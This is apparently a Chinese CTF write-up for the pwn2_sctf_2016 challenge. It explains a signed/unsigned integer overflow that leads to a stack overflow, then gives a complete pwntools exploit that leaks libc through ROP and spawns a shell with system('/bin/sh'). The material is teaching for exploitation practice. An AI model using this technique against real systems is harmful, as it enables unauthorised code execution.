

## 0x001 程序分析

分析vuln函数


函数中首先使用 **get_n** 接收输入4个字符，然后使用atoi将输入的字符串转化为整数

如果输入的整数大于32，则报错，如果小于32，则可以输入该长度字符。

## 0x002 漏洞分析

由于 **nptr** 数组的长度为32，那么根据程序的限制，只能接收输入长度小于32的字符串，那么如果输入的长度小于32，则不能造成栈溢出。

那么只能进入 **get_n** 查看一下


在这里可以看到， **get_n** 接收的输入的第二个参数也就是接收输入长度为 **无符号整型**，而在vuln中调用 **get_n** 时，传的参数v2为 **有符号整型**，那么此时就会产生 **整型溢出** 漏洞。

比如我们在第一个输入时，输入 **-1**，那么atoi就会将 **-1** 转化为 **0xffff** 保存在内存中。当 **0xffff** 与 32 比较时，是以有符号整型和其比较的，也就是 -1 和 32 进行比较。当 **0xffff** 作为无符号整型作为接收输入长度时，这个长度就很大了，也就是65535，这个长度足够造成栈溢出了。

## 0x003 漏洞利用

上面已经分析了整数溢出的利用方式，有了整数溢出，就可以很轻松的利用栈溢出漏洞了。

查看程序只开启了 NX 保护



那么接下来就是常规的栈溢出漏洞利用手法，构造ROP泄漏libc地址，然后调用system("/bin/sh")获取系统权限。

最终exp如下：
```
from pwn import *
from LibcSearcher import *

p = process("./pwn2_sctf_2016")
elf = ELF("pwn2_sctf_2016")

printf_got = elf.got["printf"]
printf_plt = elf.plt["printf"]
main_addr = elf.symbols["main"]

p.sendlineafter("How many bytes do you want me to read? ", "-1")

payload = b"A" * 48 + p32(printf_plt) + p32(main_addr) + p32(printf_got)
p.sendline(payload)

p.recvuntil(b"You said: ")
p.recv(61)
printf_real_addr = u32(p.recv(4))

libc = LibcSearcher("printf", printf_real_addr)
libcbase = printf_real_addr - libc.dump("printf")
system_addr = libcbase + libc.dump("system")
bin_sh_addr = libcbase + libc.dump("str_bin_sh")

p.sendlineafter(b"How many bytes do you want me to read? ", b"-1")
payload = b"A" * 48 + p32(system_addr) + p32(main_addr) + p32(bin_sh_addr)
p.sendline(payload)

p.interactive()
```